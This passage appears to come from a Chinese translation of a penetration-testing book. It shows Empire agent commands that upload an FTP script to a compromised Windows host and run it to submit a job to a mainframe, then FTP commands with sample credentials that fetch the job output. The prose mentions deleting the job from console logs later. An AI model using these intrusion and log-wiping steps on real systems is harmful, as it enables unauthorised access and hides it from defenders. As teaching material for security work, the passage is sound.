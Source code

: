 ```
(Empire: SalesFTP) > upload /root/ftp_jes.txt c:\users\sysback\appdata\local\
(Empire: SalesFTP) > shell ftp -i -s:ftp_jes.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```
![](chap5/chap5-9.jpg)

记住作业id–JOB04721–因为稍后我们需要从控制台日志中删除作业。我们给它几秒钟时间进行处理，然后用一个简单的get命令检索输出文件：
```
open 192.168.1.200
FTPSRV
PASS01
get 'FTPSRV.OUTPUT' FTPSRV.OUTPUT.TXT
quit
```
![](chap5/chap5-10.jpg)

用户FTPSRV在大型机上没有任何特权（attributes=none）。

其实并不奇怪，但整个操作确实证实了一件重要的事情：我们可以执行代码并检索其输出！然而，如何定位重要数据是另一个挑战。

大型机可以承载几乎无限量的数据。再加上它们通常运行几十年，这确实让我们很难找到我们要找的文件夹，犹如大海捞针。
